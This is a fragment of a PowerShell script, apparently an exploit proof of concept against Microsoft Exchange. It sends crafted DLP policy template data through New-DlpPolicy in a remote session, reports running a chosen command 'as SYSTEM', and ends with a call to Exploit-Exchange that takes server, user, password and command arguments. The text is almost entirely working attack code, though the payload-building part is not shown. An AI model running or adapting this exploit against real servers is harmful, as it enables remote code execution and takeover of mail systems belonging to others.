         $n = Get-RandomAlphanumericString
        [Byte[]]$d = [System.Text.Encoding]::UTF8.GetBytes($xml)
        Invoke-Command -Session $s -ScriptBlock {
            New-DlpPolicy -Name $Using:n -TemplateData $Using:d
        } | Out-Null
        "(+) executed $cmd as SYSTEM!"
    }

    Get-PSSession | Remove-PSSession
    Exploit-Exchange -server $server -usr $usr -pwd $pwd -cmd $cmd
